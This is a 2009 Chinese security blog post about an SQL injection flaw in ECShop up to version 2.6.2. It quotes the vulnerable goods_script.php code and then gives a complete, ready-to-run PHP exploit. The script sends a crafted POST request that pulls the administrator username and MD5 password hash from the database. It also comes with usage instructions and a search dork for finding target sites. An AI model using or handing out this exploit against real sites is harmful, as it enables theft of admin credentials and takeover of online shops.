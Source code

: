 ```yaml
---
title: ECShop <= v2.6.2 注入漏洞利用工具exploit
description: ECShop<=v2.6.2注入漏洞利用工具exploitECShop<=v2.6.2SQLinjection/admincredentialsdisclosureexploit作者：Ryat2009-03-24影响2.5.x和2.6.x,其他版本未测试……
date: 2009-04-03 10:24:14
category: 漏洞信息
tags: ['ECShop', '注入', 'exploit', '漏洞信息']
post_id: 832
alias: ECShop-v2.6.2-SQL-injection
ViewNums: 7699
---
```


[ECShop <= v2.6.2 注入漏洞利用工具exploit](/blog/ecshop-v262-sql-injection)
[ECShop <= v2.6.2 SQL injection / admin credentials disclosure exploit](/blog/ecshop-v262-sql-injection)

作者：Ryat
2009-03-24

影响2.5.x和2.6.x,其他版本未测试

goods_script.php44行:

    if (empty($_GET['type']))
    {
        ...
    }
    elseif ($_GET['type'] == 'collection')
    {
        ...
    }
    $sql .= " LIMIT " . (!empty($_GET['goods_num']) ? intval($_GET['goods_num']) : 10);
    $res = $db->query($sql);$sql没有初始化,很明显的一个漏洞:)

Exploit:

#!/usr/bin/php
<?php

print_r('
+---------------------------------------------------------------------------+
[ECShop <= v2.6.2 SQL injection / admin credentials disclosure exploit](/blog/ecshop-v262-sql-injection)
by puret_t
mail: puretot at gmail dot com
team: <http://bbs.wolvez.org>
dork: "Powered by ECShop"
+---------------------------------------------------------------------------+
');
/\*\*
 \* works with register_globals = On
 \*/
if ($argc < 3) {
    print_r('
+---------------------------------------------------------------------------+
Usage: php '.$argv[0].' host path
host:      target server (ip/hostname)
path:      path to ecshop
Example:
php '.$argv[0].' localhost /ecshop/
+---------------------------------------------------------------------------+
');
    exit;
}

error_reporting(7);
ini_set('max_execution_time', 0);

$host = $argv[1];
$path = $argv[2];

$resp = send();
preg_match('#href="([S]+):([a-z0-9]{32})"#', $resp, $hash);

if ($hash)
    exit("Expoilt Success!
admin: $hash[1]
Password(md5): $hash[2]
");
else
    exit("Exploit Failed!
");

function send()
{
    global $host, $path;

    $cmd = 'sql=SELECT CONCAT(user_name,0x3a,password) as goods_id FROM ecs_admin_user WHERE action_list=0x'.bin2hex('all').' LIMIT 1#';

    $data = "POST ".$path."goods_script.php?type=".time()."  HTTP/1.1
";
    $data .= "Accept: \*/\*
";
    $data .= "Accept-Language: zh-cn
";
    $data .= "Content-Type: application/x-www-form-urlencoded
";
    $data .= "User-Agent: Mozilla/4.0 (compatible; MSIE 6.00; Windows NT 5.1; SV1)
";
    $data .= "Host: $host
";
    $data .= "Content-Length: ".strlen($cmd)."
";
    $data .= "Connection: Close
";
    $data .= $cmd;

    $fp = fsockopen($host, 80);
    fputs($fp, $data);

    $resp = '';

    while ($fp && !feof($fp))
        $resp .= fread($fp, 1024);

    return $resp;
}

?>


